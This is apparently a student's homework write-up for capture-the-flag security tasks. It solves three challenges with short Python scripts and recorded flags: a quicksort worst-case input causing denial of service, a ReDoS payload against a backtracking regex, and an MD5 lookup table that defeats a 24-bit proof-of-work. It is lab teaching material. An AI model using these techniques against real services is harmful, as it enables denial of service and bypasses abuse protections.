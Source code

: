 # NASA HW5



# Securiy



## 2. Proof of Work & DoS 



### 3.

> Refs:
>
> b09902011 陳可邦

Flag: `HW5{c4ts_ar3_a_1ot_cut3r_th4n_柴魚}`

Be reading `server.py`, we know that the flag will be shown if `qsort()` runs slow enough, and the implementation chooses pivot from the middle of the array. Therefore we can construct an input  that forces `qsort()` run in quadratic time. The "evil" input looks something like this: `... 7 5 3 1 2 4 6 ...`

I add the following lines before `interactive(s)` in `example.py`:

```python
case_str = "1"
for i in range(2, 7200):
    if i%2 == 0:
        case_str = case_str+f" {i}"
    else:
        case_str = f"{i} "+case_str
sendLine(s, "1")
print("")
print(recvUntil(s, ': ').decode(), end='')
print("")
sendLine(s, case_str)
print("")
```

Then just run `python example.py`.

### 4.

> Refs:
>
> b09902011 陳可邦
> https://medium.com/swlh/exploiting-redos-d610e8ba531

Flag: `HW5{柴魚柴油乾柴烈火火柴砍柴柴米油鹽醬醋茶留得青山在不怕沒柴燒}`

In `server.py`, we can find this regex expression: `^Dear Sophia, (.*柴魚){10,15}.*\. Best wishes, ([a-zA-Z0-9]+ ?)+\.$`. The exploitable part is `([a-zA-Z0-9]+ ?)+`. 

mail: `Dear Sophia, 柴魚柴魚柴魚柴魚柴魚柴魚柴魚柴魚柴魚柴魚. Best wishes, 123456789012345678901234567890@.`





### 5.

> Refs:
>
> b09902011 陳可邦

Flag: `HW5{y0u_shou1d_w0rk_unt1l_4.am_wi7h_m3_ev3ry_d4y!}`

Certificate: `1757775784||246.7744634760556||08c0f1498914fcbfdb351c61eff3d84e8a6e11d348f51d38ce69c159233f02c6`

Because `proof_of_work()` the random number fed to hash only ranges from 0 to 2^24-1, we can generate a table to use hashed values to lookup prehashed values.

Codes to generate lookup table:

```python
import json, hashlib
rainbow = dict()

for i in range(2**24):
    hashed_i = hashlib.md5(f'{i}'.encode()).hexdigest()[0:8]
    rainbow[hashed_i] = i

jdata = json.dumps(rainbow)
with open('rainbow.json', 'w') as f:
    f.write(jdata)
```

Added lines in `example.py`

```python
with open('rainbow.json') as json_file:
    rainbow = json.load(json_file)
sendLine(s, "3")
for i in range(10):
    task = recvUntil(s, ': ').decode()
    print(task, end='')
    q = task[-12:-4]
    sendLine(s, str(rainbow[q]))
    print(q, str(rainbow[q]))
```

